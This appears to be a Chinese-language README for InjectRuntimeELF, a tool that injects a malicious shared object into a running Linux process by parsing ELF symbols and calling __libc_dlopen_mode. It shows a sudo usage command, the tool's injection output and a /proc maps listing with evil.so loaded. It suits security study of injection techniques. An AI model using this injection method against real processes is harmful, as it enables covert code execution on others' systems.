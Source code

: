 ## InejctRuntimeELF

Ref: [linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)

实现恶意 `so` 注入, 采用直接解析 `ELF` 文件的方式, 更加具有通用性, 并以 `.gnu.hash` 进行符号查找, 适用于目前的 `ELF` 结构.

代码规范, 参考 `glibc-2.19`, 用 `ElfW` 宏进行 `32` 和 `64` 字长兼容.

#### usage

```
➜  InjectRuntimeELF git:(master) ✗ sudo ./inject 3631 /evilELF/InjectRuntimeELF/example/evil.so
--------------------------------------------------------------
InjectRuntimeELF - (1.0.0) - by jmpews@gmail.com
--------------------------------------------------------------
[*] attached to pid 3631.
[*] dump runtime infomation
[*] dumping header...
[*] start symbol search '__libc_dlopen_mode'...
[*] start search libaray: /lib/i386-linux-gnu/libc.so.6
[*] start bucket search...
[*] found '__libc_dlopen_mode' at 0xb7693ae0
[+] entry point: 0x8048380
[+] stopped 3631 at eip:0xb7729428, esp:0xbf93cffc
[+] inject code done 3631 at eip:0x8048396
[*] start symbol search 'evilfunc'...
[*] start search libaray: /lib/i386-linux-gnu/libc.so.6
[*] start search libaray: /lib/ld-linux.so.2
[*] search in ld, no link_map.
[*] start search libaray: /evilELF/InjectRuntimeELF/example/evil.so
[*] start bucket search...
[*] found 'evilfunc' at 0xb772353b
[*] lib injection done!
```

查看pid对应maps可以查看到已经加载了恶意的so

```
➜  InjectRuntimeELF cat /proc/6380/maps
08048000-08049000 r-xp 00000000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
08049000-0804a000 r--p 00000000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
0804a000-0804b000 rw-p 00001000 00:1a 1097       /vagrant/evilELF/InjectRuntimeELF/example/test_target
09aef000-09b10000 rw-p 00000000 00:00 0          [heap]
b756b000-b756c000 rw-p 00000000 00:00 0
b756c000-b7714000 r-xp 00000000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7714000-b7715000 ---p 001a8000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7715000-b7717000 r--p 001a8000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7717000-b7718000 rw-p 001aa000 08:01 2134       /lib/i386-linux-gnu/libc-2.19.so
b7718000-b771b000 rw-p 00000000 00:00 0
b7720000-b7721000 r-xp 00000000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7721000-b7722000 r--p 00000000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7722000-b7723000 rw-p 00001000 00:1a 1102       /vagrant/evilELF/InjectRuntimeELF/example/evil.so
b7723000-b7725000 rw-p 00000000 00:00 0
b7725000-b7726000 r-xp 00000000 00:00 0          [vdso]
b7726000-b7746000 r-xp 00000000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
b7746000-b7747000 r--p 0001f000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
b7747000-b7748000 rw-p 00020000 08:01 2153       /lib/i386-linux-gnu/ld-2.19.so
bfe52000-bfe73000 rw-p 00000000 00:00 0          [stack]
```

#### 参考链接:

[PWN之ELF解析](https://github.com/jmpews/dev2pwn/blob/master/PWN%E4%B9%8BELF%E8%A7%A3%E6%9E%90.md)

[linux进程动态so注入](https://github.com/jmpews/dev2pwn/blob/master/linux%E8%BF%9B%E7%A8%8B%E5%8A%A8%E6%80%81so%E6%B3%A8%E5%85%A5.md)

#### 利用点

TODO

